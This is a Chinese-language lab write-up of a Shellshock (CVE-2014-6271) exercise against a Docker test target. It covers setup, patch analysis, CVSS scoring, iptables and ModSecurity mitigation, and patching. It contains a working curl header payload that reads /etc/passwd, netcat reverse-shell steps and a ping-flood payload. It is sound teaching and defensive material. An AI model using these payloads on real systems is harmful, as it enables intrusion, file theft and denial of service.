# 漏洞攻防实训_CVE-2014-6271
## 相关配置
攻击者IP：192.168.203.4

靶机IP：172.17.0.1

CONTAINER ID:7eb52a86b45
## 一、靶场环境构建

使用了docker和docker-compose

### （1）docker与docker-compose的安装

- 使用APT安装
```

sudo apt-get update

sudo apt-get install \
    apt-transport-https \
    ca-certificates \
    curl \
    software-properties-common

```
- 为了确认所下载软件包的合法性，需要添加软件源的 GPG 密钥。

```
curl -fsSL https://mirrors.ustc.edu.cn/docker-ce/linux/ubuntu/gpg | sudo apt-key add -
```
- 向 source.list 中添加 Docker 软件源

```
sudo add-apt-repository \
    "deb [arch=amd64] https://mirrors.ustc.edu.cn/docker-ce/linux/ubuntu \
    $(lsb_release -cs) \
    stable"
```
- 安装 Docker CE

```
sudo apt-get update
sudo apt-get install docker-ce


```
- 配置镜像加速器

1. 在 /etc/docker/daemon.json 中写入如下内容
```
#在 /etc/docker/daemon.json 中写入如下内容
{
  "registry-mirrors": [
    "https://registry.docker-cn.com"
  ]
}
```
2.重新启动服务

```
sudo systemctl daemon-reload
sudo systemctl restart docker
```
- 建立 docker 用户组

```
sudo groupadd docker
sudo usermod -aG docker $USER
```


- 安装Docker-compose

```
sudo curl -L https://github.com/docker/compose/releases/download/1.17.1/docker-compose-`uname -s`-`uname -m` > /usr/local/bin/docker-compose
sudo chmod +x /usr/local/bin/docker-compose
```
### （2）使用 Vulhub 一键搭建漏洞测试靶场
- 下载Vulhub

```
git clone https://github.com/vulhub/vulhub.git
```
- 编译运行Shellshock环境

```
cd vulhub/bash/shellshock
docker-compose build
docker-compose up -d
```


参考文献：

1. [Docker- 从入门到实践](https://yeasy.gitbooks.io/docker_practice/)
2. [使用Vulhub一键搭建漏洞测试靶场](http://vulhub.org/#/docs/)
## 二、漏洞利用实战
通过查看Vulhub的Dockerfile发现，该环境下载了漏洞版本的bash-4.3，在Docker内配置了实验所需工具。


- bash使用的环境变量是通过函数名称来调用的，且输入的过滤中没有严格限制边界，没有做合法化的参数判断
- 以“() {”开头定义的环境变量在命令ENV中解析成函数后，Bash执行并未退出，而是继续解析并执行shell命令

### （1）手工利用漏洞

- 远程获取/etc/passwd文件内容

```
curl -H 'x: () { :;};a=`/bin/cat /etc/passwd`;echo $a' '172.17.0.1/victim.cgi' -I
```


### （2）脚本化利用漏洞
- 运行shell_shocker.py可运行全路径的bash指令

[Code :shell_shocker](Code/shell_shocker.py)

原理：向cgi发送构造好的数据包

能够执行不需要权限的操作：



可实现文件写入、删除、更改权限




- The No-Malware Reverse Shell Technique

1.攻击者监听自己机器的端口

```
nc -l -p 4444
```

2.运行python脚本


```
python shellpoc.py <host> <vulnerable CGI> <attackhost/IP>
```

[Code :reverse shell](Code/shellpoc.py)

能够执行不需要权限的操作：



无法创建文件



参考代码：
1. [shellshocker-pocs](https://github.com/mubix/shellshocker-pocs)
2. ['Shellshock' Environment Variables Command Injection](https://www.exploit-db.com/exploits/34766/)
## 三、漏洞原理分析
>**Shellshock漏洞对应CVE编号：CVE-2014-6271、CVE-2014-7169、CVE-2014-6277、CVE-2014-6278、CVE-2014-7186、CVE-2014-7187**

### 主要受漏洞影响的bash版本

```
bash-4.2.45-5.el7_0.2     
bash-4.1.2-15.el6_5.1 
bash-4.1.2-15.el6_5.1.sjis.1
bash-4.1.2-9.el6_2.1     
bash-4.1.2-15.el6_4.1     
bash-3.2-33.el5.1    
bash-3.2-33.el5_11.1.sjis.1    
bash-3.2-24.el5_6.1    
bash-3.2-32.el5_9.2    
bash-3.0-27.el4.2
```


### 以bash-4.3版本的源代码为例进行分析
#### 1.漏洞代码的起因
>Bash的环境变量分为两种，一种是只能在当前shell中使用的“局部变量”，另一种是在子进程中也可以使用的“全局变量”
```bash
1. 局部变量
var="hello world"
echo $var 

2. 全局变量
export var="hello world"
echo $var 
bash 
echo $var
```
>再就是对于Bash来说，函数和变量处理起来都是类似的，而Bash判断一个环境变量是不是一个函数，就看它的值是否有"()"

```bash
1. “局部”函数，仅在当前shell使用的函数
foo(){ echo "hello world"; }
foo 

2. 全局函数
foo(){ echo "hello world"; }
foo 
export -f foo 
bash
foo 

```
>在当前的bash shell进程下产生一个bash的子进程时，新的子进程会读取父进程的所有export的环境变量，并复制到自己的进程空间中，同时予以执行,着就会导致函数体外的代码被默认执行了

```bash
定义如下环境变量( 注：() 和 { 间的空格不能少)，并使用bash -c执行一个bash子进程命令
env VAR='() { :;}; echo Bash is vulnerable!' /usr/local/bash-4.3.0/bin/bash -c "echo Bash Test"
```


#### 2. 漏洞代码分析
查看[bash-4.3 patc25](http://git.savannah.gnu.org/cgit/bash.git/commit/?id=b64a0e1d0b412cedda763a32d6e5cd6927333f02)的diff发现，对于一下几个代码进行了修改：
- builtins/common.h 
- builtins/evalstring.c
- patchlevel.h
- variables.c
- subst.c

2.1 common.h增加了两个宏定义，限制了函数体定义、命令个数；猜测之前代码并未对函数体定义、bash命令的个数进行限制。

```c
#define SEVAL_FUNCDEF	0x080		/* only allow function definitions */
#define SEVAL_ONECMD	0x100		/* only allow a single command */
```
2.2 evalstring.c对传入的command加入了边界检查，之前evalstring.c存在代码注入的可能
```diff
if (interactive_shell == 0 && read_but_dont_execute)
{
    last_result = EXECUTION_SUCCESS;
    dispose_command (global_command);
    global_command = (COMMAND *)NULL;
}
else if (command = global_command)
{
    struct fd_bitmap *bitmap;  
+   if ((flags & SEVAL_FUNCDEF) && command->type != cm_function_def)
+  {
+       internal_warning ("%s: ignoring function definition attempt", 
from_file);
+       should_jump_to_top_level = 0;
+       last_result = last_command_exit_value = EX_BADUSAGE;
+       break;
+   }
+
    bitmap = new_fd_bitmap (FD_BITMAP_SIZE);
    begin_unwind_frame ("pe_dispose");
    add_unwind_protect (dispose_fd_bitmap, bitmap);
    add_unwind_protect (dispose_command, command);    /* XXX */

    global_command = (COMMAND *)NULL;
    
```
2.3 本次漏洞的罪魁祸首是variables.c
>主要影响函数是initialize_shell_variables ()，也是此次漏洞修复的主要对象,这个文件负责对bash中的变量进行解析，我们在ENV中进行的临时环境变量设置，将在这个文件中完成

补丁增加了legal_identifier(name)函数，用户检查环境变量名是否合法，如果通过该函数，则会运行parse_and_execute()。
```diff
@@ -358,13 +358,11 @@ initialize_shell_variables (env, privmode)
 	  temp_string[char_index] = ' ';
 	  strcpy (temp_string + char_index + 1, string);

-	  if (posixly_correct == 0 || legal_identifier (name))
-	    parse_and_execute (temp_string, name, SEVAL_NONINT|SEVAL_NOHIST);
-
-	  /* Ancient backwards compatibility.  Old versions of bash exported
-	     functions like name()=() {...} */
-	  if (name[char_index - 1] == ')' && name[char_index - 2] == '(')
-	    name[char_index - 2] = '\0';
+	  /* Don't import function names that are invalid identifiers from the
+	     environment, though we still allow them to be defined as shell
+	     variables. */
+	  if (legal_identifier (name))
+	    parse_and_execute (temp_string, name, SEVAL_NONINT|SEVAL_NOHIST|SEVAL_FUNCDEF|SEVAL_ONECMD);

 	  if (temp_var = find_function (name))
 	    {
@@ -381,10 +379,6 @@ initialize_shell_variables (env, privmode)
 	      last_command_exit_value = 1;
 	      report_error (_("error importing function definition for `%s'"), name);
 	    }
-
-	  /* ( */
-	  if (name[char_index - 1] == ')' && name[char_index - 2] == '\0')
-	    name[char_index - 2] = '(';		/* ) */
 	}
 #if defined (ARRAY_VARS)
 #  if ARRAY_EXPORT
 ```
 
 定位到bash4.3未补丁前的initialize_shell_variables函数
```c
void initialize_shell_variables (env, privmode)
     char **env;
     int privmode;
{
  char *name, *string, *temp_string;
  int c, char_index, string_index, string_length, ro;
  SHELL_VAR *temp_var;

  create_variable_tables ();
   /*
    从ENV环境变量中获取参数
    */ 
  for (string_index = 0; string = env[string_index++]; )
    {
      char_index = 0;
      name = string;
      while ((c = *string++) && c != '=')
	;
      if (string[-1] == '=')
	char_index = string - name - 1;

      /* If there are weird things in the environment, like `=xxx' or a
	 string without an `=', just skip them. */
      if (char_index == 0)
	continue;

      /* ASSERT(name[char_index] == '=') */
      name[char_index] = '\0';
      /* Now, name = env variable name, string = env variable value, and
	 char_index == strlen (name) */

      temp_var = (SHELL_VAR *)NULL;

      /* 解析环境变量设置中的函数定义*/
      if (privmode == 0 && read_but_dont_execute == 0 && STREQN ("() {", string, 4))
	{
	  string_length = strlen (string);
	  temp_string = (char *)xmalloc (3 + string_length + char_index);

	  strcpy (temp_string, name);
	  temp_string[char_index] = ' ';
	  strcpy (temp_string + char_index + 1, string);
	  /*
            这句是关键，initialize_shell_variables对环境
            变量中的代码进行了执行，由于它错误的信任的外部发送的数据，
            这就是典型的数据和代码没有进行正确区分导致的漏洞
            */

	  if (posixly_correct == 0 || legal_identifier (name))
	    parse_and_execute (temp_string, name, SEVAL_NONINT|SEVAL_NOHIST);

	  /* Ancient backwards compatibility.  Old versions of bash exported
	     functions like name()=() {...} */
	  if (name[char_index - 1] == ')' && name[char_index - 2] == '(')
	    name[char_index - 2] = '\0';

	  if (temp_var = find_function (name))
	    {
	      VSETATTR (temp_var, (att_exported|att_imported));
	      array_needs_making = 1;
	    }
	  else
	    {
	      if (temp_var = bind_variable (name, string, 0))
		{
		  VSETATTR (temp_var, (att_exported | att_imported | att_invisible));
		  array_needs_making = 1;
		}
	      last_command_exit_value = 1;
	      report_error (_("error importing function definition for `%s'"), name);
	    }

	  /* ( */
	  if (name[char_index - 1] == ')' && name[char_index - 2] == '\0')
	    name[char_index - 2] = '(';		/* ) */
	}
```

总结：
1. Bash(本地、ssh、cgi)允许使用ENV进行path临时设置
2. 攻击者可通过自定义函数，并导出到变量中
3. Bash对环境变量的设置是通过""代码执行""完成的
4. Bash没有对传入的参数进行正确的边界检查，导致数据和代码的混杂

- CWE（弱点项目）：
     - CWE-78	 
     - OS命令中使用的特殊元素转义处理不恰当（OS命令注入）

参考文献：
1. [破壳漏洞（CVE-2014-6271）综合分析：“破壳”漏洞系列分析之一](http://www.freebuf.com/news/48331.html)
2. [破壳漏洞（CVE-2014-6271）综合分析：“破壳”漏洞系列分析之二](http://www.freebuf.com/articles/system/48357.html)
3. [破壳漏洞（CVE-2014-6271）综合分析：“破壳”漏洞系列分析之三](http://www.freebuf.com/articles/system/48406.html)
4. [CVE-2014-6271](http://cve.scap.org.cn/cve-2014-6271.html)
5. [Bash远程代码执行漏洞“破壳”（CVE-2014-6271）分析](http://www.antiy.com/response/CVE-2014-6271.html)
6. [Bash-4.3 patc25](http://git.savannah.gnu.org/cgit/bash.git/commit/?id=b64a0e1d0b412cedda763a32d6e5cd6927333f02)
## 四、漏洞影响分析
### （1）查看或自己分析目标漏洞的 CVSS 评分

Object | Rank | Meaning
---|---|---
CVSS分值 | 	10 | 严重(HIGH)
机密性影响 |	COMPLETE | 完全的信息泄露导致所有系统文件暴露
完整性影响 | 	COMPLETE| 系统完整性可被完全破坏
可用性影响 | 	COMPLETE| 可能导致系统完全宕机
攻击复杂度 | LOW| 漏洞利用没有访问限制
攻击向量 | 	NETWORK | 攻击者不需要获取内网访问权或本地访问权
身份认证 | 	NONE|漏洞利用无需身份认证


### (2)最大化漏洞利用效果
#### 1.拒绝服务

```
#通过构造带有如下字段的数据包，让目标主机发送ping包
() { :; }; ping -s 35456 <victim IP>

```


#### 2.信息泄露  
   


#### 3.非最高权限的任意代码执行
> 远程下载一个shell脚本，执行一个echo语句
   
（1）远程下载脚本，赋予可运行权限，然后利用reverse shell执行代码




#### 4.最高权限的任意代码执行
> 远程下载一个shell脚本，使用apt安装vim

***授权成功，执行失败***
- 将脚本所有者改为root(**失败**)



- 利用reverse shell进行执行（**失败**）



- 修改passwd中daemon权限（**成功**）
> 再次登陆reverse shell，登陆用户改变



参考文献：
1. [Shellshock in the Wild](https://www.fireeye.com/blog/threat-research/2014/09/shellshock-in-the-wild.html#header-search)
2. [Inside Shellshock: How hackers are using it to exploit systems](https://blog.cloudflare.com/inside-shellshock/)

## 五、漏洞缓解
- web应用防火墙mod_security（==由于docker缺少权限失败==）

 (1)进入容器内部

```
docker container exec -it [containerID] /bin/bash
```

（2）安装libapache2-modsecurity模块及其依赖包

```
apt-get install libxml2 libxml2-dev libxml2-utils libpcre3 libpcre3-dev libcurl4-openssl-dev zlib1g-dev libtool libapache2-modsecurity
```
（3）查询ModSecurity信息，验证安装是否成功

```
dpkg -s libapache2-modsecurity
```

（4）配置modsecurity，启用拦截模式

```
cd /etc/modsecurity
mv modsecurity.conf-recommended modsecurity.conf
vim modsecurity.conf
```



（5）关联启动文件

```
cd /usr/share/modsecurity-crs/activated_rules
ln -s ../modsecurity_crs_10_setup.conf ./modsecurity_crs_10_setup.conf
tree
```


（6）创建自定义规则



**并没有起到防护的效果**，查询资料发现设置modsecurity需要docker的最高权限，但是通过docker-compose获得最高权限的方式并未找到

- 设置iptables对于数据包进行过滤 (**成功**）

```
#可以使用IPTables字符串匹配试图减少数据包,可以预防一部分的攻击，规则比较死不灵活
iptables -A INPUT -m string --algo bm --hex-string '|28 29 20 7B|' -j DROP
ip6tables -A INPUT -m string --algo bm --hex-string '|28 29 20 7B|' -j DROP
```
##### 效果验证
（1）远程获取/etc/passwd文件内容



（2）reverse shell



参考文献：
1. [Bash bug漏洞目前最新最全的修复方式](http://bbs.safedog.cn/forum.php?mod=viewthread&tid=68496)
2. [在ubuntu16.04中安装apache2+modsecurity以及自定义WAF规则详解](https://www.cnblogs.com/tppt/p/7672815.html)
3. [ubuntu14.04 下安装apache+modsecurity](https://www.cnblogs.com/yangxiaocheng/p/4248576.html)
4. [How to Configure ModSecurity and mod_evasive for Apache on CentOS 7](https://devops.profitbricks.com/tutorials/how-to-configure-modsecurity-and-mod_evasive-for-apache-on-centos-7/)
5. [【运维日记 A】第一次安装modsecurity+linux](https://blog.csdn.net/tiberx/article/details/61206701)
## 六、漏洞修补
### 6.1 官方补丁修补
（1）进入容器内部
```
docker container exec -it [containerID] /bin/bash
```
（2）安装补丁
- 根据日期查询可知，CVE-2014-6271的补丁是Patch 25

修改[Dockerfile]()重新安装后，查证修补效果

```bash
mkdir src
cd src
wget http://ftp.gnu.org/gnu/bash/bash-4.3.tar.gz
#download all patches
for i in $(seq -f "%03g" 1 25); do wget http://ftp.gnu.org/gnu/bash/bash-4.3-patches/bash43-$i; done
tar zxvf bash-4.3.tar.gz 
cd bash-4.3
#apply all patches
for i in $(seq -f "%03g" 1 25);do patch -p0 < ../bash43-$i; done
#build and install
./configure --prefix=/src/bash-4.3.0 && make && make install
cd .. 
cd ..
rm -r src
```
（3）修补效果验证
- 远程获取/etc/passwd文件内容


- reverse shell



参考文献：
1. [How do I patch the shellshock vulnerability on an obsolete Ubuntu system that I can't upgrade?](https://superuser.com/questions/816787/how-do-i-patch-the-shellshock-vulnerability-on-an-obsolete-ubuntu-system-that-i)
2. [更新：bash の脆弱性対策について(CVE-2014-6271 等)](https://www.ipa.go.jp/security/ciadr/vul/20140926-bash.html)
